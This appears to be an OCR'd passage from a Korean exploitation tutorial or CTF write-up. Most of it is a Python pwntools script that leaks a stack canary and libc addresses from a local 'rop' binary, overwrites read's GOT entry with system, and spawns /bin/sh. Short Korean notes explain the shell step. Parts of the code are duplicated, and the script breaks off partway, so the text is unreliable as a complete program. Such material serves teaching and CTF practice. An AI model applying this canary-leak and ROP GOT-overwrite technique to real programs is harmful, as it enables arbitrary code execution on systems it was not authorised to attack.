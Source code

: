```python
# read("/bin/sh") == system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
payload += p64(ret)
payload += p64(read_plt)

p.sendafter(b'Buf: ', payload)
read = u64(p.recvn(6) + b'\x00'*2)
lb = read - libc.symbols['read']
system = lb + libc.symbols['system']
slog('read', read)
slog('libc_base', lb)
slog('system', system)

p.send(p64(system) + b'/bin/sh\x00')
```

### 셸 획득

- `read` 함수의 GOT를 `system` 함수의 주소로 덮었으므로, `system("/bin/sh")` 를 실행할 수 있음
- `read` 함수, `pop rdi; ret` 가젯, “/bin/sh”의 주소(`read_got + 8`)를 이용하여 셸을 획득하는 익스플로잇을 작성

```python
#!/usr/bin/env python3
# Name: rop.py
from pwn import *

def slog(name, addr): return success(': '.join([name, hex(addr)]))

p = process('./rop')
# p = process('./rop', env= {"LD_PRELOAD" : "./libc.so.6"})
e = ELF('./rop')
libc = ELF('./libc.so.6')

# [1] Leak canary
buf = b'A'*0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Exploit
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
pop_rdi = 0x0000000000400853
pop_rsi_r15 = 0x0000000000400851
ret = 0x0000000000400854

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8

# write(1, read_got, ...)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)

# read(0, read_got, ...)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

# read("/bin/sh") == system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
```